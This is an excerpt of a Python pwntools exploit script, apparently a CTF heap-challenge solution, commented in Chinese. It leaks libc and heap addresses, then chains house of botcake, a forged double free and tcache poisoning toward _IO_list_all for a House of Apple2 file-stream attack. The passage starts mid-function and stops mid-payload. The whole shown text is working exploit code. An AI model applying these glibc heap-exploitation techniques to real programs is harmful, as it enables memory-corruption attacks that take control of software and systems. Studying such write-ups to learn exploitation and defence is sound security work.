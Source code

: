 ```python
    p.sendafter("chunk data: ",content)
def delete(idx):
    p.sendlineafter("&gt;&gt;&gt; ",str(2))
    p.sendlineafter("chunk id: ",str(idx))
def show(idx):
    p.sendlineafter("&gt;&gt;&gt; ",str(3))
    p.sendlineafter("chunk id: ",str(idx))

p.sendlineafter("&gt;&gt;&gt; ",str(114514))
p.recvuntil("this is a gift: ")
libcbase=int(p.recv(14), 16)-libc.sym['puts']
print(hex(libcbase))
#利用largebin泄露heapbase
add(0,0x410,b'a')
add(15,0x20,b'a')
delete(0)
add(1,0x500,b'a')
delete(1)
add(0,0x410,b'a')
show(0)
p.recv(16)
heapbase=u64(p.recv(8)) -0x2b0
print(hex(heapbase))
#-------------------此时bin是空的---------------------

#------------------house of botcake--------------
for i in range(7):
    add(i,0x80,'a')
#主要用7，8进行操作
add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x18,'a')
for i in range(7):
    delete(i) 

delete(8)

#注意此时堆的情况，0x20大小的chunk在tcache和fastbin中都有
#一直因为mark导致不能double free，但是通过以下方式mark可以修改8的mark=1
add(15,0x18,b'a')
add(14,0x18,b'a')
add(13,0x18,b'a')
add(12,0x18,p64(0x80)+p64(1)+p64(heapbase+0xcd0))
delete(15)
delete(14)
delete(13)
delete(12)

#实际操作中发现8的0x20大小的chunk总成为barrier导致无法unlink
#触发malloc consolidate,让8的0x20的chunk合并到smallbin中为了正常触发unlink
add(15,0x500,b'a')
#此时会进行unlink 8，让7，8一起进入unsorted bin
delete(7)

#给8腾出一个位置，不然会触发double free or corruption (!prev)
#----------这个地方卡了好久，如果不留位置，8的chunk大小为0x90，又回到unsorted bin中，会触发上述报错----------------
add(10,0x80,'a')
#注意8的大小为0x20+0x90=0xb0,8既在unsorted bin中，又在tcache中
delete(8) 

#打tcache poison,然后打apple2
io_list_all=libcbase+libc.sym['_IO_list_all']
payload=b'a'*0xa0+p64(0)+p64(0x91)+p64(io_list_all ^ ((heapbase+0xcc0)&gt;&gt;12) )
```